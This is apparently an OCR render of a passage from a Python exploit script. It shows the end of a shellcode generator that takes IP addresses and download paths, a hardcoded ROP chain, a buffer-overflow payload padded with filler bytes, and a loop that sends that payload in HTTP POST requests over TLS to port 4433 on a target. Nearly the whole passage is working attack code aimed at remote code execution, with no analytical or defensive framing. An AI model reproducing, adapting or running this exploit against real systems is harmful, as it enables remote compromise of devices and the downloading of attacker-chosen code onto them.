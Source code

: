 ```
      mov rbx,{}
      push rbx
      mov rsi,rsp
      mov rdi,rsp
      add rax, 0x70
      mov rsp, rax
      nop
      nop
      nop
      nop
      nop
      nop

      ret
'''.format(arg2,arg1,filename,ip_addr2,ip_addr1,cmd_path2,cmd_path1,save_path1,save_path2))
    print(shellcode)
    print(hex(len(shellcode)))
    return shellcode
ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('Q',0xffffffffffeA5288)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000002a0e0e0)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0x200000)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x000000000043F3D0)
ROP+=struct.pack('q',0x00000000005dc96d)
ROP+=shellcode1
#441A50

print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)+gen_shellcode_download_file()+struct.pack('q',0x43A160)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r\nHost: " + \
            ip.encode() + b"\r\nContent-Length: " + CL.encode() + \
            b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\n"+payload

        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break

```  
  